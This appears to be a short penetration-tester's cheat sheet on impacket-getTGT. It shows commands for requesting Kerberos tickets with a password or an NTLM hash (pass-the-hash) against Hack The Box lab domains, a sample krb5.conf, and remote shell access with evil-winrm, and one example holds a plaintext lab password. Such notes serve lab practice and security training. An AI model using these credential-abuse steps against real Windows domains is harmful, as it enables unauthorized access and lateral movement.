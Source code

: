 # impacket-getTGT

The getTGT tool specifically is used to request a Ticket Granting Ticket (TGT) from a Kerberos Key Distribution Center (KDC) within a Windows domain.

## Usage

```
impacket-getTGT <domain>/<username>:<password>
getTGT.py <domain>/<username>
```

Geeting a ticket using credential:

```shell
faketime "$(ntpdate -q rustykey.htb | awk '{print $1" "$2}')" impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'
```

Getting a ticket with NTLM hash:

```shell
impacket-getTGT  -hashes :<ntlm_hash> <domain>/'<username>'
impacket-getTGT  -hashes :aad3b435b51404eeaad3b435b51404ee vintage.htb/'GMSA01$'
```

### Use a TGT to connect with evil-winrm or ssh

Make sure the clock is sync with kerberos:
```
https://github.com/AndreMIsidoro/escalations/blob/f6dc2013309973181232d7ec1a6f7a9c6f41d070/ad_enumeration.md#sync-time-with-kerberos
```

Then get the ticket and export it:

export KRB5CCNAME=<path_to_ticket>

Finally edit /etc/krb5.conf with the domain name and the dc name. Example:

```
REMOVE THE COMMENTS
[libdefaults]
    default_realm = RUSTYKEY.HTB # change this
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true

[realms]
    RUSTYKEY.HTB = { # change this
        kdc = 10.129.232.127 # change this
        admin_server = dc01.RUSTYKEY.HTB
        default_domain = RUSTYKEY.HTB
    }

[domain_realm]
    .MIRAGE.HTB = RUSTYKEY.HTB #change this
    MIRAGE.HTB = RUSTYKEY.HTB #change this
```

Connect by doing:

```shell
ssh <username>@<server>
evil-winrm -i <server_ip> -r <domain_name>
#example
evil-winrm -i frizzdc.frizz.htb -r frizz.htb
```
